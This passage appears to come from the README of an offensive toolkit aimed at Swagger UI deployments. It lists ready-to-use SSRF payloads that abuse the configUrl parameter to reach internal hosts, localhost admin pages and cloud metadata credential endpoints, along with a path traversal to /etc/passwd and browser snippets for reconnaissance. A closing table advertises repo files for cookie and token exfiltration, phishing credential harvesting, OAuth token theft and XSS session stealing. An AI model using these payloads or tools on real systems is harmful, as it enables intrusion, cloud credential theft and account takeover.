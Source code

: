 ```javascript
`);
```

### 4. 🚪 Server-Side Request Forgery (SSRF): The Backdoor

Using configUrl to make the server fetch resources from internal networks.

#### Basic SSRF:
```
/swagger-ui/?configUrl=http://internal-server/sensitive-file
```

#### Internal Service Discovery:
```
/swagger-ui/?configUrl=http://10.0.0.1/
/swagger-ui/?configUrl=http://localhost:8080/admin
```

#### Cloud Metadata Access:
```
/swagger-ui/?configUrl=http://169.254.169.254/latest/meta-data/iam/security-credentials/
/swagger-ui/?configUrl=http://metadata.google.internal/computeMetadata/v1/
```

#### DNS Rebinding Attack:
Use a domain that resolves to public IP initially, then to internal IP on subsequent requests.

### 5. 🔎 Advanced Reconnaissance Techniques

#### Directory Traversal in configUrl:
```
/swagger-ui/?configUrl=https://target.com/../../etc/passwd
```

#### Version Detection:
```javascript
// Extract Swagger UI version from DOM
const version = document.querySelector('.swagger-ui-wrap').getAttribute('data-version');
// OR
const version = document.querySelector('script[src*="swagger-ui"]').getAttribute('src').match(/swagger-ui-bundle\.(.*?)\.js/)[1];
```

#### Passive API Endpoint Discovery:
```javascript
// Extract all API endpoints from Swagger UI
const endpoints = Array.from(document.querySelectorAll('.opblock-summary-path')).map(el => el.textContent.trim());
```

## 🧰 ARSENAL: THE TOOLS IN THIS REPO

| File | Purpose | Vulnerability Class | Example Usage |
|------|---------|---------------------|--------------|
| `Swagger.yaml` | Main test suite | Multiple vectors | Test comprehensive vulnerability matrix |
| `script.js` | Exfiltration & data collection | Session theft | Captures cookies, localStorage, tokens |
| `login.yaml/json` | Phishing templates | Social engineering | Credential harvesting |
| `oauth.yaml/json` | OAuth exploits | Authentication bypass | Token stealing, flow manipulation |
| `dom-xss.yaml/json` | Client-side exploits | DOM manipulation | Hash fragment XSS, prototype pollution |
| `swagger-ui-xss.yaml/json` | UI-specific payloads | UI object poisoning | Target internal Swagger objects |
| `xsscookie.yaml/json` | Session stealing | Cookie theft | Bypass HttpOnly via UI flaws |
